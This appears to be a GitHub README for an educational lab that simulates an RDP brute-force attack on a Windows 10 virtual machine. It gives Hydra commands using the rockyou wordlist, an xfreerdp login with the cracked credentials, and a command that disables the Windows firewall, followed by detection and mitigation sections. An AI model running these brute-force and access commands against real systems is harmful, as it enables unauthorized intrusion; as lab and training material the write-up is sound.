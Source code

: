 # Simulated RDP Brute Force Attack on Windows (Ethical Lab)

## Disclaimer
> This project is for **educational and research purposes only**. All testing was done in an **isolated lab environment** on virtual machines I own. Never attempt this on networks or systems you do not have explicit permission to test.

---

## 1. Project Objective

To simulate how an attacker could gain unauthorized access to a Windows machine via Remote Desktop Protocol (RDP) by brute-forcing weak credentials — and document how such attempts can be detected and prevented.

---

## 2. Lab Setup

| Component     | Tool Used          | Specs                      |
|--------------|--------------------|----------------------------|
| Host OS      | Windows/Linux/macOS| Runs VirtualBox or VMware |
| Attacker VM  | Kali Linux         | With `hydra`, `nmap`       |
| Target VM    | Windows 10         | RDP enabled, weak password |
| Network Mode | Host-Only Adapter  | No external network access |

---

## 3. Steps to Set Up

### Windows VM (Target) Setup
1. Install Windows 10 in VirtualBox/VMware.
2. Create a **local account** named `Administrator` with a **weak password** (e.g., `123456`).
3. Enable Remote Desktop:
   - **System Properties > Remote > Enable Remote Desktop**
4. Get IP with:
   ```cmd
   ipconfig
   ```
5. Turn off Firewall (for testing only):
   ```cmd
   netsh advfirewall set allprofiles state off
   ```

### Kali Linux (Attacker) Setup
1. Boot Kali.
2. Install tools:
   ```bash
   sudo apt update
   sudo apt install hydra nmap xfreerdp
   ```
3. Ping Windows IP to verify connectivity:
   ```bash
   ping <windows_ip>
   ```

---

## 4. Scanning the Target

Use Nmap to confirm the RDP port is open:
```bash
nmap -p 3389 <windows_ip>
```

---

## 5. Brute-Force RDP Credentials with Hydra

Use a common wordlist (like rockyou):
```bash
cd /usr/share/wordlists/
sudo gunzip rockyou.txt.gz
hydra -t 4 -vV -f -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://<window ip>
```

If successful, Hydra will show:
```
[3389][rdp] host: 192.168.56.101   login: Administrator   password: 123456
```

---

## 6. Gaining Access via RDP

Use the credentials with:
```bash
xfreerdp /u:Administrator /p:123456 /v:<windows_ip>
```

This opens a remote desktop session with Administrator access.

---

## 7. Detection (On Windows VM)

Open Event Viewer and monitor:
- `Windows Logs > Security`
- `Applications and Services Logs > Microsoft > Windows > TerminalServices-RemoteConnectionManager`

Look for:
- Multiple failed login attempts.
- Successful login events.

---

## 8. Mitigations

- Enforce strong passwords.
- Set account lockout policy.
- Enable IP-based RDP restrictions.
- Use Multi-Factor Authentication.
- Actively monitor Event Logs.

---

## 9. Conclusion

This project demonstrates how weak credentials can be brute-forced on exposed RDP services. It emphasizes the need for secure configurations, logging, and proactive monitoring to prevent unauthorized access.

---

## .gitignore

```
*.log
*.pcap
*.cap
*.pyc
__pycache__/
*.vbox
*.vbox-prev
*.vdi
*.ova
*.ovf
.DS_Store
.idea/
.env
output/
```

This `.gitignore` file helps exclude VM images, logs, wordlists, and other large or sensitive files from your GitHub repository.

